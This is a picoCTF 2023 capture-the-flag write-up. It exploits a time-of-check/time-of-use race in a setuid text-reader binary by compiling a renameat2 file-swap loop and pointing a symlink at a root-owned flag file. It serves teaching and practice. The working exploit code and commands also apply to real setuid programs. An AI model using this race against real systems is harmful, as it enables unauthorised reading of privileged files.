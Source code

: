 # tic-tac

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information
```
Points: 200
Tags: picoCTF 2023, Binary Expoitation, linux, bash, toctou
Author: JUNIAS BONOU

Description:
Someone created a program to read text files; we think the program reads files with 
root privileges but apparently it only accepts to read files that are owned by the 
user running it.

ssh to saturn.picoctf.net:61030, and run the binary named "txtreader" once connected. 
Login as ctf-player with the password, 8a707622
 
Hints:
(None)
```

## Solution

The challenge title and tags tells us that we should expect a [time-of-check to time-of-use (TOC/TOU)](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) race condition.

### Connect to the server

We start by connecting to the server with SSH
```
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2023/Binary_Exploitation/tic-tac]
└─$ ssh -p 61030 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:61030 ([13.59.203.175]:61030)' can't be established.
ED25519 key fingerprint is SHA256:e8pSZxXYptxqGFMvizVN3x1vGmmhC4iDlWjx8/Js5jY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:61030' (ED25519) to the list of known hosts.
ctf-player@saturn.picoctf.net's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.19.0-1024-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

ctf-player@pico-chall$ 
```

### Investigate the scenario

Next, we investigate the available files
```bash
ctf-player@pico-chall$ ls -la
total 32
drwxr-xr-x 1 ctf-player ctf-player    20 Oct  1 14:15 .
drwxr-xr-x 1 root       root          24 Aug  4 21:50 ..
drwx------ 2 ctf-player ctf-player    34 Oct  1 14:15 .cache
-rw-r--r-- 1 root       root          67 Aug  4 21:52 .profile
-rw------- 1 root       root          32 Aug  4 21:52 flag.txt
-rw-r--r-- 1 ctf-player ctf-player   912 Mar 16  2023 src.cpp
-rwsr-xr-x 1 root       root       19016 Aug  4 21:52 txtreader
ctf-player@pico-chall$ file txtreader 
txtreader: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f31c8b2980e334387115245d52f922371573666, for GNU/Linux 3.2.0, not stripped
```
We have the `txtreader` program with the [Setuid](https://en.wikipedia.org/wiki/Setuid) bit set.  
And a `flag.txt` file only readable by `root` as well as the source code named `src.cpp`.

### Analyse the C++ file

Now we analyse the C++ source
```c
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
  if (argc != 2) {
    std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
    return 1;
  }

  std::string filename = argv[1];
  std::ifstream file(filename);
  struct stat statbuf;

  // Check the file's status information.
  if (stat(filename.c_str(), &statbuf) == -1) {
    std::cerr << "Error: Could not retrieve file information" << std::endl;
    return 1;
  }

  // Check the file's owner.
  if (statbuf.st_uid != getuid()) {
    std::cerr << "Error: you don't own this file" << std::endl;
    return 1;
  }

  // Read the contents of the file.
  if (file.is_open()) {
    std::string line;
    while (getline(file, line)) {
      std::cout << line << std::endl;
    }
  } else {
    std::cerr << "Error: Could not open file" << std::endl;
    return 1;
  }

  return 0;
}
```
The race condition is between the time-of-check, the `if (stat(filename.c_str(), &statbuf) == -1) {` line,  
and the time-of-use, the `if (file.is_open()) {` line.

This [LiveOverflow video](https://www.youtube.com/watch?v=5g137gsB9Wk) describes both the problem and the solution.

### Make a work area

Since the home directory isn't writable to us we need to create a work area
```bash
ctf-player@pico-chall$ TMP_DIR=$(mktemp -d)
ctf-player@pico-chall$ echo $TMP_DIR
/tmp/tmp.ejxpXrVQv6
ctf-player@pico-chall$ chmod 777 $TMP_DIR
ctf-player@pico-chall$ cd $TMP_DIR
```

### Compile the exploit

Then we create the [rename.c](https://github.com/sroettger/35c3ctf_chals/blob/master/logrotate/exploit/rename.c) exploit described in the video above.
```bash
ctf-player@pico-chall$ cat << EOF > rename.c
> #define _GNU_SOURCE
> #include <stdio.h>
> #include <fcntl.h>
> #include <stdio.h>
> #include <unistd.h>
> #include <sys/syscall.h>
> #include <linux/fs.h>
> 
> int main(int argc, char *argv[]) {
>   while (1) {
>     syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
>   }
>   return 0;
> }
> EOF
ctf-player@pico-chall$ 
```
Neither `vi` nor `vim` seemed to be installed so I used a [here document](https://tldp.org/LDP/abs/html/here-docs.html) instead.

Now we compile
```bash
ctf-player@pico-chall$ gcc -o rename rename.c 
ctf-player@pico-chall$ file rename 
rename: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=96a47ccc6a617534efdf3fb5e09207cfcb9dd0e9, for GNU/Linux 3.2.0, not stripped
```

### Prepare the files

The exploit takes two files one files. One file should be readable by you and the other should be a [symbolic link](https://en.wikipedia.org/wiki/Symbolic_link) pointing to the file we want to read.

Lets create the files
```bash
ctf-player@pico-chall$ ln -s ~/flag.txt
ctf-player@pico-chall$ ls -l flag.txt 
lrwxrwxrwx 1 ctf-player ctf-player 25 Oct  1 14:24 flag.txt -> /home/ctf-player/flag.txt
ctf-player@pico-chall$ touch myfile.txt
```

### Run the exploit

Next we run the exploit in the background
```bash
ctf-player@pico-chall$ ./rename flag.txt myfile.txt &
[1] 53
```

### Get the flag

Finally, we run the `txtreader` program and ask for `myfile.txt`
```bash
ctf-player@pico-chall$ ./txtreader $TMP_DIR/myfile.txt
picoCTF{<REDACTED>}
```

For additional information, please see the references below.

## References

- [chmod - Linux manual page](https://man7.org/linux/man-pages/man1/chmod.1.html)
- [ln - Linux manual page](https://man7.org/linux/man-pages/man1/ln.1.html)
- [mktemp - Linux manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html)
- [Here documents - Advanced Bash-Scripting Guide](https://tldp.org/LDP/abs/html/here-docs.html)
- [Wikipedia - Setuid](https://en.wikipedia.org/wiki/Setuid)
- [Wikipedia - Symbolic link](https://en.wikipedia.org/wiki/Symbolic_link)
- [Wikipedia - Time-of-check to time-of-use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use)
